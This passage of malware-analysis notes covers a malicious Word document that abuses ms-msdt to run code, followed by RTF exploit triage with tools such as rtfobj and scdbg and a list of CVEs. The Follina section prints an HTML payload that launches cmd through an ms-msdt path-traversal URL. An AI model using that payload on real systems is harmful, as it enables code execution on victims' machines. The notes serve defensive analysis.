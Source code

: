 A sample shared by nao_sec that abusing ms-msdt to execute code. Refer [here](https://mobile.twitter.com/nao_sec/status/1530196847679401984).

Unzipping the documents, and navigate to `maldoc-name\word\_rels\document.xml.rels` will reveal the HTML URL which will execute their payload.

![image](https://user-images.githubusercontent.com/56353946/183518431-b8201056-19c3-4286-970f-67f51c3f8d93.png)

The payload might looks something like this:

```
<!doctype html>
    <html lang="en">
<body>
    <script>
    window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_LaunchMethod=ContextMenu IT_SelectProgram=NotListed IT_BrowseForFile=h$(Start-Process('cmd'))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe IT_AutoTroubleshoot=ts_AUTO\"";
</script>
</body>
</html>
```

# RTF Exploit

RTF often comes with exploits targetting Microsoft Word vulnerabilities. Always look for embedded objects and anomalous content in the RTF.

Be prepared to locate, extract and analyze shellcode.
- Emulate using scdbg OR
- Execute using jmp2it OR
- Convert to executable and debug the executable using x32dbg
   - Find the start offset of the shellcode
- Behavioral analysis

RTF exploit list:
 - CVE-2018-8570 
 - CVE-2018-0802 
 - CVE-2017-11882 
 - CVE-2017-0199
 - CVE-2015-1641 
 - CVE-2014-1761 
 - CVE-2012-0158

## rtfobj

Use **rtfobj** to inspect and extract embedded objects from RTF files.

    remnux@remnux:~/Desktop$ rtfobj malicious.rtf
    rtfobj 0.55 on Python 3.6.9 - http://decalage.info/python/oletools
    THIS IS WORK IN PROGRESS - Check updates regularly!
    Please report any issue at https://github.com/decalage2/oletools/issues
    